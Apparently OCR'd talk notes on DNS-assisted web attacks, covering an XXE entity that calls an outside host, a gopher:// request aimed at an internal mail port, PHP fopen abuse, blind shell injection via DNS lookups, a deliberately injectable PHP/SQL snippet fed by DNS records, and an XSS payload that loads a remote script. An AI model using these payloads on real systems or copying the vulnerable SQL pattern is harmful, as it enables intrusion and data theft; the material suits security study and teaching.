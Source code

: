 ```
<!ENTITY xxe SYSTEM "http://aab.skullseclabs.org">]>

<foo> &xxe; </foo>
```

Even if there is a firewall, and a weird filesystem and the file isn't send back to the user, you can still detect XXE!

### Gopher

If you ask a server to make a request for:

```
gopher://internal-ip:25/AHELO%0AMAIL+FROM...
```

If you can get a service to fetch an arbitrary gopher://URL, such as through XXE, you can attack back-end services.

Having to use DNS to exploit this is unlikely.

## PHP bad fopen()

Very similar to XXE.

Old versions of PHP allowed Internet links (http://...) in fopen()

Arbitrary file read, gopher:// issues again.


### Shell injection

Simply inject a DNS lookup into every field.

Full server access


### DNS Lookups

Untrusted.

Exploit:

Setting TXT record will change email field to a list of databases:

```sql
$addr = gethostbyaddr($_SERVER['REMOTE_ADDR']))
$details = print_r(dns_get_record($addr), true);
mysql_query("UPDATE users SET password='$details' WHERE username="$username'");
```

### Cross-site scripting

The following is a valid CNAME, MX, TXT, PTR:

```
<script/src="http://javaop.com/test-js.js'></script>
```
